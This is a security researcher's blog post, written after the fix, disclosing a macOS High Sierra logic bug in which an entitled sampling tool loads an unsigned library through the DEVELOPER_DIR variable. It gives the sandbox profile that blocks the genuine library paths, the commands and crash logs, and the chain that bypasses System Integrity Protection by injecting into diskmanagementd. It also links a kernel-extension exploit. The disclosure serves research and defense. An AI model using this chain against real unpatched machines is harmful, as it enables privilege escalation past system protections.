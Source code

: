 ```yaml
---
layout:	post
title:	"Bypass macOS Rootless by Sandboxing"
date:	2018-06-18
image: /img/elevated.png
show_excerpt: true
---
```


This bug has been fixed in Mojave Beta, but still present in latest High Sierra (10.13.5). It's a logic bug that an entitled binary tries to load an insecure external library controllable by environment variable. To exploit it we need to abuse sandbox, which is interesting that sometimes a mitigation could be turned to an exploit.

CoreSymbolication(`/System/Library/PrivateFrameworks/CoreSymbolication.framework`) has some private api for symbolication. When demangling swift application symbols, it tries to load external library in following order:

* /System/Library/PrivateFrameworks/Swift/libswiftDemangle.dylib
* /Developer/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib
* /usr/lib/libswiftDemangle.dylib
* `${xcselect_get_developer_dir_path()}`/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib

<!-- more -->

![](/img/AcYsN5lN3MwURaTyzmZYlg.png)

The function `xcselect_get_developer_dir_path` will return environ variable `DEVELOPER_DIR` if it's set. Absolutely controllable.

![](/img/5y2YMlFx8NPfDGRv3PXszg.png)

Actually the first `libswiftDemangle.dylib` candidate does exist. Will it reach the vulnerable branch? I'll talk about it later.

Apple has built-in `com.apple.SamplingTools` in:

```
/usr/bin/{filtercalltree,heap32,stringdups32,leaks32,heap,atos,vmmap32,sample,malloc_history32,symbols,vmmap,leaks,stringdups,malloc_history}
```

And they are entitled:

```shell
➜ ~ jtool --ent `which symbols`
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "<http://www.apple.com/DTDs/PropertyList-1.0.dtd>">
<plist version="1.0">
<dict>
 <key>com.apple.private.kernel.get-kext-info</key>
 <true/>
 <key>com.apple.system-task-ports</key>
 <true/>
</dict>
</plist>
```

With this entitlement, SamplingTools can attach to SIP protected process with `task_for_pid`, even without root privilege.

```
$ vmmap Finder | head -n 8
Process: Finder [42164]
Path: /System/Library/CoreServices/Finder.app/Contents/MacOS/Finder
Load Address: 0x10515f000
Identifier: com.apple.finder
Version: 10.13.5 (10.13.5)
Build Info: Finder_FE-1054005004000000~3
Code Type: X86-64
Parent Process: ??? [1]
```

LLDB fails even it's root:

```
$ sudo lldb -n Finder
Password:
(lldb) process attach --name "Finder"
error: attach failed: cannot attach to process due to System Integrity Protection
```

So this seems to be like a meta entitlement. With it you can just inject to other entitled process and gain arbitrary entitlement.

Let's just start an application compiled with swift, then run `symbols [pid] -printDemangling` and it will call CoreSymbolication!demangle, which has potential ability to load insecure code.

But there are two problems. First, the last branch looks impossible to be reached because `/System/Library/PrivateFrameworks/Swift/libswiftDemangle.dylib` exists.

Actually we can just block them with a sandbox. **Yeah, use the security facility to trigger something insecure.**

```lisp
(version 1)
(allow default)
(deny file-read*
  (literal "/System/Library/PrivateFrameworks/Swift/libswiftDemangle.dylib")
  (literal "/Developer/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib")
  (literal "/usr/lib/libswiftDemangle.dylib")
)
```

Then, spawn a child process with `symbols [pid] -printDemangling` to trigger dylib hijack.

Now we have a second problem. It crashes.

```
System Integrity Protection: enabled
Crashed Thread: 0 Dispatch queue: com.apple.main-threadException Type: EXC_BAD_ACCESS (Code Signature Invalid)
Exception Codes: 0x0000000000000032, 0x000000010d745000
Exception Note: EXC_CORPSE_NOTIFY
Termination Reason: Namespace CODESIGNING, Code 0x2
kernel messages:
External Modification Warnings:
Process used task_for_pid().
VM Regions Near 0x10d745000:
 MALLOC_LARGE 000000010d70a000-000000010d745000 [ 236K] rw-/rwx SM=PRV
--> mapped file 000000010d745000-000000010d746000 [ 4K] r-x/r-x SM=PRV Object_id=2929ab85
 mapped file 000000010d748000-000000010d762000 [ 104K] r--/r-- SM=ALI Object_id=2af85085Application Specific Information:
dyld: in dlopen()
/var/folders/4d/1_vz_55x0mn_w1cyjwr9w42c0000gn/T/tmp.0b5SeUjh/Toolchains/XcodeDefault.xctoolchain/usr/lib/libswiftDemangle.dylib
12 libdyld.dylib 0x00007fff66c9fd86 dlopen + 86
13 com.apple.CoreSymbolication 0x00007fff52d15332 invocation function for block in call_external_demangle(char const*) + 348
14 libdispatch.dylib 0x00007fff66c64e08 _dispatch_client_callout + 8
15 libdispatch.dylib 0x00007fff66c64dbb dispatch_once_f + 41
16 com.apple.CoreSymbolication 0x00007fff52cb880f demangle + 298
17 com.apple.CoreSymbolication 0x00007fff52cb85e3 TRawSymbol<Pointer64>::name() + 75
18 com.apple.CoreSymbolication 0x00007fff52cbd88e CSSymbolGetName + 166
```

com.apple.SamplingTools in latest macOS are code signed with [Library Validation](https://developer.apple.com/library/archive/documentation/Security/Conceptual/CodeSigningGuide/Procedures/Procedures.html) flag, so loading unsigned dylib is prohibited.

```
➜ ~ codesign -dvvv `which symbols`
Executable=/usr/bin/symbols
Identifier=com.apple.SamplingTools
Format=Mach-O thin (x86_64)
CodeDirectory v=20100 size=1384 flags=**0x2000(library-validation) **hashes=36+5 location=embedded
```

I just happened to have an El Capitan virtual machine and I looked into it. The previous SamplingTools distribution has valid code signature, but no library validation flag. So just copy to High Sierra and it works.

Although we can now invoke `task_for_pid` on any restricted process, it still requires the same euid, which means we need a local root privilege escalation exploit as part of the chain.

Now inject into `diskmanagementd` and you'll have the `com.apple.rootless.install.heritable` entitlement, which means the privilege to modify `/System` and spawn a shell without rootless restriction.

The bug has been fixed in Mojave Beta, no more external library, finally.

![](/img/vAP5r0UBzDCQcnPl8WjDqA.png)

#### Update 2019-05-14

This bug be exploited for kernel privilege escalation. Please refer to the slides for my HITB Ams 2019 talk:

<https://conference.hitb.org/hitbsecconf2019ams/materials/D2T2%20-%20ModJack%20-%20Hijacking%20the%20MacOS%20Kernel%20-%20Zhi%20Zhou.pdf>

And here's the exploit to load an unsigned kernel extension on macOS 10.13:

[**ChiChou/sploits**](https://github.com/ChiChou/sploits/tree/master/ModJack)